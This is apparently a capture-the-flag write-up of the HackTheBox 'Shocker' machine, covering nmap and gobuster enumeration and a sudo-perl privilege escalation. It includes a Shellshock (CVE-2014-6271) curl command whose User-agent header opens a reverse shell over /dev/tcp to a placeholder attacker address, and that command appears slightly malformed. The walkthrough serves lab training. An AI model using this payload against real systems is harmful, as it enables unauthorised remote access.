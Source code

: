 
# Shocker machine on [hackthebox](https://app.hackthebox.com/)

Written by: Mustafa Musallati.


### Enumeration:


Scanning with nmap:
```
Nmap scan report for 10.10.10.56
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.34 seconds
```

The website:

![](./images/20231006105944.png)

As we can see there is nothing much on the website, so let's start some enumeration on it.


We will enumerate some directories using gobuster:

```
gobuster dir -u http://10.10.10.56  -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -f
```

Note: is  crucial to add "/" at the end of each request since we are looking for directories, so we used -f .

Result:
```
/cgi-bin/             (Status: 403) [Size: 294]
/icons/               (Status: 403) [Size: 292]
```

So we have a cgi-bin, let's see if we can see what scripts are in there.

We will search for famous scripts extensions such as sh, pl and cgi.

```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x pl,sh,cgi
```

Result:
`/user.sh              (Status: 200) [Size: 119]`



### Exploitation: 

We found a bash script running, let's see if we can check it and exploit it.

![](./images/20231006112539.png)

Nothing much, but let's search if we can exploit this script to gain a reverse shell on the target.


After searching for a little bit, we found that there is a CVE for an earlier bash version with the id: "CVE-2014-6271", and there is an exploit for it on GitHub, also here we have a good article explaining the vulnerability and how it works: [article by Antony Tran.](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock)

So let's try and use it to gain a reverse shell:

```
curl -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1 http://10.10.10.56/cgi-bin/user.sh"
```

And we will set our listener:

![](./images/20231006113435.png)

Now Let's execute our command, and check the listener:

![](./images/20231006114548.png)

We got a shell and easy user, time for root.

First let's see if we can run something with sudo:

![](./images/20231006114728.png)

We can execute perl with sudo and no password!!

Very easy let's just use it to spawn a shell:

![](./images/20231006115104.png)

And very easy simple root....


thanks for reading!

Good hunting!! :)


---

Written by: Mustafa Musallati.
[LinkedIn](https://www.linkedin.com/in/mustafa-musallati-95a159260/)
[instagram](https://www.instagram.com/accaard/)

